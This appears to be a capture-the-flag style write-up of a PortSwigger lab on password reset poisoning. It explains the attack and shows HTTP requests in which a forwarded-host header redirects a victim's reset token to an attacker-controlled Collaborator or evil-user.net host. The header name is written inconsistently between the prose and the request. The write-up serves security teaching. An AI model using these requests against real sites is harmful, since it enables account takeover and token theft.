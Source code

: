 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/311fc73a-63a6-4cd4-886c-b83d0432ce58)

## Overview :

**Password Reset Poisoning -**
 Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts. 
 
 #### How this attack works ?
 
1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use evil-user.net.

2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server:
    
    ```http
    https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j
    ```
    
3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server. 
4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account. 
 
References :

  - https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html
  - https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

## Solution :

The lab is a blog website,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cc42a1e6-2077-48df-b2d4-98dfbb24073d)
 

Clicking on *My Account* takes us to this login page,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/53b86e71-64c5-4476-9882-cd8341df296b)

When we click on forgot password, browser sends a *POST* request to `/forgot-password` along with `username=wiener` parameter.

```http
POST /forgot-password HTTP/2
Host: 0ad700ef037b819c8101e38400e800fb.web-security-academy.net
Cookie: session=eiaiChHGmHu6RsgwQZFBmVObpnNqH12j
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0ad700ef037b819c8101e38400e800fb.web-security-academy.net
Referer: https://0ad700ef037b819c8101e38400e800fb.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener
```

After forwarding the above request, we can see the reset password link has been sent to wiener's email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3b511076-ac35-4703-a6f9-a7341d401729)

> Here the server address in the link is `0ad700ef037b819c8101e38400e800fb.web-security-academy.net`

#### Perform password reset poisoning on carlos -


We modify the *POST* Request sent to /`forget-password` by adding an additional header `X-Forwarded-Host=<our-server.net>` 

```http
POST /forgot-password HTTP/2
Host: 0ad700ef037b819c8101e38400e800fb.web-security-academy.net
Cookie: session=eiaiChHGmHu6RsgwQZFBmVObpnNqH12j
X-Forwarded-Header: 435q984u5naoa70dzdstyeec93ft3i.oastify.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0ad700ef037b819c8101e38400e800fb.web-security-academy.net
Referer: https://0ad700ef037b819c8101e38400e800fb.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener
```
Now we can see that we got the reset link to our mail(wiener) but this time the server name is our burp collaborator server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b354778a-3cb9-48ca-a8c3-b0d614e36228)

We can change the username parameter to carlos ie(`username=carlos`) to send a password reset email to carlos.

Since it is given in the lab description that **user carlos will carelessly click on any links in emails that he receives**. It means he will enter his username and password for resetting his old password by clicking on our malicious link.



















